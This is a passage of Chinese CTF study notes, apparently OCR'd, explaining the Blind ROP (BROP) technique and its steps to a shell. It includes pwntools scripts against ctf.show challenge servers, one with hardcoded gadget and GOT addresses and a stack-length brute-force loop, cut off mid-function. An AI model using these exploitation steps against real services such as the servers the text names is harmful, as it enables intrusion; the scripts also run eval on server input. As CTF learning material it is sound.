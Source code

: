 ##### 盲打（BROP）

BROP全称为"BlindROP"，一般在我们无法获得二进制文件的情况下利用 ROP进行远程攻击某个应用程
序，劫持该应用程序的控制流，我们可以不需要知道该应用程序的源代码或者任何二进制代码，该应用
程序可以被现有的一些保护机制，诸如NX, ASLR, PIE, 以及stack canaries等保护，应用程序所在的服务
器可以是32位系统或者64位系统，BROP这一概念在2014年由Standford的Andrea Bittau发表在
Oakland 2014的论文Hacking Blind中提出。

要利用BROP，有两个先决条件：
1. 程序必须存在一个已知漏洞（一般是栈溢出漏洞或者格式化字符串漏洞），并且攻击者知道如何触
发该漏洞；
2. 应用程序在crash之后可以重新启动，并且重新启动的进程不会被re-rand(虽然有ASLR的保护，但
是复活的进程和之前的进程的地址随机化是一样的)，这个需求其实在现实中是存在且合理的，诸如
像如今的nginx, MySQL, Apache, OpenSSH, Samba等应用均符合此类特性。

BROP的攻击思路一般有以下几个步骤：
1. 暴力枚举，获取栈溢出长度，如果程序开启了Canary ，顺便将canary也可以爆出来
2. 寻找可以返回到程序main函数的gadget,通常被称为stop_gadget
3. 利用stop_gadget寻找可利用(potentially useful)gadgets，如:pop rdi; ret
4. 寻找BROP Gadget，可能需要诸如write、put等函数的系统调用
5. 寻找相应的PLT地址
6. dump远程内存空间
7. 拿到相应的GOT内容后，泄露出libc的内存信息，最后利用rop完成getshell

ezBROP：接收数字进行计算的

```python
from pwn import *
import time
p=remote("1.95.36.136", 2092)

p.sendline("haha")
p.sendline("2")
p.sendline("22")

for i in range(520):
        p.recvuntil('看看这道题怎么样：')
        temp = p.recvuntil(b'=')
        temp=temp.decode().replace("="," ")
        ans = eval(temp)
        p.sendline(str(ans))
        p.sendline(' ')
        print(temp,ans,i)
        time.sleep(1)
p.interactive()
```

blind rop：

```python
from pwn import *
from LibcSearcher import *
io = remote('pwn.challenge.ctf.show',28153)
buf_length   = 72
stop_gadgets = 0x400728
brop_gadgets = 0x4007ba
pop_rdi_ret  = 0x400843
puts_plt     = 0x400550
puts_got     = 0x602018
#暴力枚举栈空间大小
def Getbuflenth():
    i = 1
    while 1:
        try:
            io = remote('pwn.challenge.ctf.show',28235)
        	io.recvuntil("Welcome to CTFshow-PWN ! Do you know who is daniu?\n")
            io.send(i*'a')
```